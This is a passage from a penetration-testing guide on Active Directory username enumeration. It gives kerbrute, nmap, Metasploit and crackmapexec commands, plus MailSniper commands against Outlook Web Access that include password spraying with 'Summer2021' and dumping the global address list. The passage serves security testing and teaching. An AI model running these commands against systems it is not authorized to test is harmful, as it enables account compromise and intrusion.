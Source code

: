 ### User enumeration

* **Anonymous SMB/LDAP enum:** Check the [**pentesting SMB**](../../network-services-pentesting/pentesting-smb.md) and [**pentesting LDAP**](../../network-services-pentesting/pentesting-ldap.md) pages.
* **Kerbrute enum**: When an **invalid username is requested** the server will respond using the **Kerberos error** code _KRB5KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN_, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response or the error _KRB5KDC\_ERR\_PREAUTH\_REQUIRED_, indicating that the user is required to perform pre-authentication.

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
```

* **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```


You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.


### Knowing one or several usernames

